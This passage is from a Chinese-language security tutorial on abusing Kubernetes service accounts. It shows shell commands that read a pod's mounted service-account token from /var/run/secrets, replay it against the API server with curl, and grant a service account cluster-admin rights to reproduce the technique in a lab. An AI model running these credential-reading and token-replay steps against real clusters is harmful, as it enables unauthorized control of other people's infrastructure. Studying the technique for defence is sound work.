 ### [利用 Service Account 连接 API Server 执行指令](#toc_service-accountapi-server)

k8s 有两种账户：用户账户和服务账户，用户账户被用于人与集群交互（如管理员管理集群），服务账户用于 Pod 与集群交互（如 Pod 调用 api server 提供的一些 API 进行一些活动）

如果我们入侵了一台有着高权限服务账户的 Pod，我们就可以用它对应的服务账户身份调用 api server 向集群下达命令。  
pod 的 serviceaccount 信息一般存放于/var/run/secrets/kubernetes.io/serviceaccount/目录下

但是默认的 user 或者 service account 并不具备任何权限

这是默认情况下，一个 pod 使用自身 service account(默认为当前命名空间的 default 账户) 去请求 api server 返回的结果，可以发现是没有权限的。

```bash
$ CA_CERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
$ TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
$ NAMESPACE=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)
$ curl --cacert $CA_CERT -H "Authorization: Bearer $TOKEN" "https://192.168.111.20:6443/version/"

  "kind": "Status",
  "apiVersion": "v1",
  "metadata": {},
  "status": "Failure",
  "message": "version is forbidden: User \"system:serviceaccount:default:default\" cannot list resource \"version\" in API group \"\" at the cluster scope",
  "reason": "Forbidden",
  "details": {
    "kind": "version"
  },
  "code": 403
```

那么我现在创建一个高权限 service account 并使其与一个 Pod 相关联，来复现一下这个攻击手法

首先创建一个高权限 service account

```bash
kubectl create serviceaccount niubi #创建 service account：niubi
kubectl create clusterrolebinding cluster-admin-niubi  --clusterrole=cluster-admin --serviceaccount=default:niubi #把 niubi 放入集群管理员组，相当于给了它高权限
```

然后将 service account 与 pod 相关联

```bash
在创建 Pod 的 yaml 文件中的 spec 项中输入 serviceAccountName: niubi
```

[![image-20220311115857358](assets/1698894613-6648ba4e869fa8b008cf5220a9927e37.png)](https://storage.tttang.com/media/attachment/2022/03/11/6e961ef4-ce5b-43b7-9a57-9171e27f8e7d.png)
